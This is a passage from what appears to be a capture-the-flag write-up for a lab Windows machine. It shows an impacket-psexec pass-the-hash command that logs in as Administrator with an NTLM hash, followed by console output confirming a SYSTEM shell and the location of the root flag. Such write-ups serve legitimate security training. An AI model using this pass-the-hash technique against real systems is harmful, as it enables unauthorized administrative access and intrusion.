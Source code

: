 **Getting Administrator Shell:**
```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f67....a6e Administrator@10.10.11.69
```
{: .nolineno }

**Shell Access Confirmed:**
```powershell
Microsoft Windows [Version 10.0.17763.6893]
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd C:\Users\Administrator 

C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is 3DE7-5FBC
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
|   +---scripts
|   |       cleanup.ps1
|   |       
|   \---WindowsPowerShell
|       \---Scripts
|           \---InstalledScriptInfos
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---Pictures
+---Saved Games
\---Searches

C:\Users\Administrator>
```
{: .nolineno }

**Root Flag Location:**
```powershell
C:\Users\Administrator\Desktop\root.txt
```
{: .nolineno }
